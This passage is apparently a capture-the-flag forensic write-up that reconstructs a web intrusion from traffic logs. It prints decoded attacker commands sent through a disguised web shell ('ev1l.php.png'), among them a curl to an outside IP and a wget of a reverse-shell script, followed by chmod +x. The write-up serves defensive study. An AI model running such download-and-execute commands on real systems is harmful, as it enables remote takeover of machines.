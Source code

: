 We have **two files**, one containing network **traffic logs** and the other containing **commands history**.
I start with the traffic logs and take a look at the IP addresses requests statistics, none of them seems to stand out. I also check the other available fields such as reponses codes, methods, etc...

Globally, the statistics do not give me more clue. The thing I should have done is to look at the big picture and notice packet traffic spikes... (I still managed to find my way through).

<br><br><br>
# Traffic : Filters for commands execution in requests

Since there is **too much noise**, I decide to apply a very basic **filter** that searches for specific keywords typically used by attackers in their requests (in a real scenario, I think this filter would still show too much noise, but it is a CTF so I give it a try).

![Filter requests](../../assets/images/DGS3-CTF/Mission2-filter-requests.png)

I luckily found very few results

![Filter requests](../../assets/images/DGS3-CTF/Mission2-filter-requests-results.png)

These requests execute commands, encoded in Base64, via a file named `ev1l.php.png`. Decoding them gives these commands in clear text :
```bash
ls -la
whoami
pwd
ping -c 1 google.com
curl http[:]//163.172.67.201:49999/
wget http[:]//163.172.67.201:49999/s1mpl3-r3vsh3ll-vps.sh
chmod +x s1mpl3-r3vsh3ll-vps.sh
```

**Info Notice:** Note that the IP addresses you see have been voluntarily obfuscated with brackets [] as we usually do in reports sharing artifacts
{: .notice--info}

This way of executing commands is very **suspicious**, moreover, the commands ping an IP address, download a script and give them execution permission (it is probably a tool for further attack steps).
Here we obtained the **IP address the tools are from** which is the **element #3 : `163[.]172.67.201`**

We now have the precise time when the initial foothold happened, we have to look for earlier events to find the two vulnerabilities that allowed it.

<br><br><br>
# Traffic : Looking for the initial foothold

## Content discovery
I put the filter to get the requests from the IP address that executed the commands (```10[.]143.17.101```) a few minutes before, I notice dozens GET requests for multiple directories like in this example :


[mission1]: http://localhost:4000/TheWatchNode/ctf/dgse-ctf-2025-m1/
[ffuf]: https://github.com/ffuf/ffuf
[LFI]: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
[cwe-98]: https://cwe.mitre.org/data/definitions/98.html
[cwe-434]: https://cwe.mitre.org/data/definitions/434.html
[filter-part]: https://silkyheldi.github.io/TheWatchNode/ctf/dgse-ctf-2025-m2#filters-for-commands-execution-in-requests